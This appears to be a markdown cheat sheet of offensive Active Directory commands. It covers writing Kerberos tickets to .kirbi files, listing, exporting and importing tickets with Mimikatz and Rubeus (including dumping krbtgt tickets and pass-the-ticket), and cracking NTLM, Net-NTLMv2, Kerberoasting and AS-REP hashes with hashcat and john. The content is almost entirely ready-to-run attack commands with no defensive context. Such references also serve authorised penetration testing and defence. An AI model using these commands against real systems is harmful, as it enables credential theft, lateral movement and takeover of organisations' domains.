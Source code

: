 - On Windows
```powershell
[System.IO.File]::WriteAllBytes("C:\windows\temp\bob.kirbi", [System.Convert]::FromBase64String("xxxxxx="))
```
- On linux
```bash
echo '…' | base64 -d > bob.kirbi
```
### List tickets

- Mimikatz
```powershell
sekurlsa::tickets
```
- Rubeus
```powershell
rubeus.exe triage
```
- Operating System
```powershell
klist
```

### Export a ticket

- Mimikatz
```powershell
sekurlsa::tickets /export
```
- Rubeus
```powershell
rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap
```

### Import a ticket

- Mimikatz
```powershell
kerberos::ptt ticket.kirbi
```
- Rubeus
```powershell
rubeus.exe /ptt /ticket: [doIF…]
```

### Hash to Password

- NTLM
```bash
hashcat -a 0 -m 1000 hash.txt dict/rockyou.txt
```
- Net-NTLMv2
```bash
john --wordlist=dict/rockyou.txt hash.txt

hashcat -m 5600 hash.txt dict/rockyou.txt --force
```
- Kerberoasting
```bash
john --format=krb5tgs --wordlist=dict/rockyou.txt hash.txt
```
- ASREPRoasting
```bash
hashcat -a 0 -m 18200 hash.txt dict/rockyou.txt

john --format=krb5asrep --wordlist=dict/rockyou.txt hash.txt
```
